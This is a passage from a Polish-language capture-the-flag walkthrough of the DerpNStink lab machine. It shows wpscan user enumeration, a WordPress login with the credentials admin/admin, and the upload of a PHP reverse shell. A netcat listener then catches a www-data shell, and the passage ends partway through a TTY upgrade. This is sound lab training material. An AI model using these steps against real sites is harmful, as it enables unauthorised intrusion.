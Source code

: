 Dodatkowo wpscan odsłonił przed nami dwóch użytkowników
```
[i] User(s) Identified:

[+] unclestinky
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Pozostaje nam wykorzystać tę informację i spróbować się zalogować
![](https://github.com/d15rup7or/Labs/blob/master/DerpNStink/img/wp-login-page.png)

Zobaczmy czy zadziała z tym hasłem
`login:admin password:admin`

Tym razem się udało. W rezultacie trafiamy do panelu wordpressa jako użytkownik z ograniczonymi uprawnieniami. 
![](https://github.com/d15rup7or/Labs/blob/master/DerpNStink/img/slideshow.png)

## 2. Reverse shell

Kolejnym krokiem będzie uploadowanie [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) (Kali Linux ma go w katalogu `usr/share/webshells/php`) (wcześniej zmieniamy w nim parametry $ip na adres maszyny wirtualnej oraz $port) 
![](https://github.com/d15rup7or/Labs/blob/master/DerpNStink/img/shell-upload.png)

Odpalamy netcat i ustawiamy go tak żeby nasłuchiwał na uprzednio wybranym porcie. Dla nas będzie to port **4443**: <br>
`nc -nlvp 4443`

```
listening on [any] 4443 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 35050
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 08:07:59 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
Sprawdźmy czy możemy użyć Pythona dla upgradu shella
```
$ which python
/usr/bin/python
```
Upgradujmy shella do interaktywnego TTY <br>
